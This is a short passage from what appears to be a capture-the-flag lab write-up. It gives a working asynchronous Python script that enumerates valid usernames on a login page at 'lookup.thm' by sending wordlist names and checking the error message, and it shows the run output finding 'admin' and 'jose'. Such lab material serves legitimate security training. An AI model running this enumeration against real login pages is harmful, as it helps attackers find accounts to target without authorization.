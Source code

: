 
#### **option |||**
```py
import aiohttp
import asyncio

TARGET = 'http://lookup.thm/login.php'
WORDLIST = "/usr/share/wordlists/seclists/Usernames/Names/names.txt"
valid_usernames = []

async def check_username(session, username):
    """Check if a username is valid by sending a POST request."""
    form_data = {'username': username.strip(), 'password': 'test'}
    try:
        async with session.post(TARGET, data=form_data) as response:
            response_text = await response.text()
            if 'Wrong username' not in response_text:
                valid_usernames.append(username.strip())
                print(f"[+] Found valid username: {username.strip()}")
    except Exception as e:
        print(f"[!] Error checking {username.strip()}: {e}")

async def main():
    """Read usernames from wordlist and check them asynchronously."""
    async with aiohttp.ClientSession() as session:
        try:
            with open(WORDLIST, 'r') as file:
                usernames = file.readlines()
                tasks = [check_username(session, uname) for uname in usernames]
                await asyncio.gather(*tasks)
        except FileNotFoundError:
            print(f"[!] Wordlist not found at: {WORDLIST}")
            return

    print("\n[+] Valid usernames found:", valid_usernames)

if __name__ == "__main__":
    asyncio.run(main())
```

```sh
time python3 Username_Enumeration.py
```

```sh
[+] Found valid username: admin
[+] Found valid username: jose

[+] Valid usernames found: ['admin', 'jose']

real	23.57s
user	4.72s
sys	    0.94s
cpu	    24%

```
